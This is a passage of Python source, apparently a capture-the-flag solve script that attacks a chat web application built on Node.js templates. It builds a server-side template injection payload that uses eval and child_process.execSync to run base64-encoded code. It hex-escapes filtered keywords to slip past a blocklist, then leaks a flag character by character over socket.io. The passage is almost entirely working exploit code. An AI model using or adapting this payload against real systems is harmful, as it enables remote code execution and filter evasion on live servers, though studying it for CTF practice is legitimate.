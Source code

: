 ```python
    }
).then(r=>r.json()).then(r=>{
    if(!r.message){
        console.log('kumo leaks flag',String.fromCharCode(code));
    }
}).catch(e=>console.log(e));
}
""".replace("PREFIXPREFIX", prefix).replace("INDEX", str(len(prefix)))
# print(async_code)
# async_code = """
# 1+1
# """

    payload = f"""
let data;
try{{
    data = process.mainModule.require('child_process').execSync(`node --eval 'eval(atob("{base64.b64encode(async_code.encode()).decode()}"))'`).toString();
}} catch(e){{
    data = "Error: " + e.message;
}}
Date.prototype.toJSON=()=>{{
    return data;
}}
"""
    payload = f"<%=eval(atob('{base64.b64encode(payload.encode()).decode()}'))%>"

    for word in BAD_WORDS:
        if word in payload:
            # convert to \xXX format
            hex_word = ''.join([f"\\x{ord(c):02x}" for c in word])
            payload = payload.replace(word, hex_word)
    return payload
while True:
    cookie,uname=get_cookie()
    sio = socketio.Client()
    @sio.event
    def connect():
        print("[*] Connected to server")
        # time.sleep(1)
        
        print("[*] Payload sent")
    @sio.event
    def disconnect():
        print("[*] Disconnected from server")
    @sio.event
    def message(data):
        if 'kumo' in data.get('username', ''):
            return
        print(data)
        if 'timestamp' in data and data['text'] == 'Your template is safe!':
            print("[*] Exploit likely worked")
            if 'kumo leaks flag ' in data.get('timestamp', ''):
                flag = data['timestamp'].split('kumo leaks flag ')[1].strip()
                global prefix
                prefix += flag
                print(f"[+] Flag so far: {prefix}")
                sio.emit("message", ({
                    "text": get_payload(prefix),
                },uname))
        if 'Nurufufufu~' in data.get('text', ''):
            sio.emit("message", ({
                "text": get_payload(prefix),
```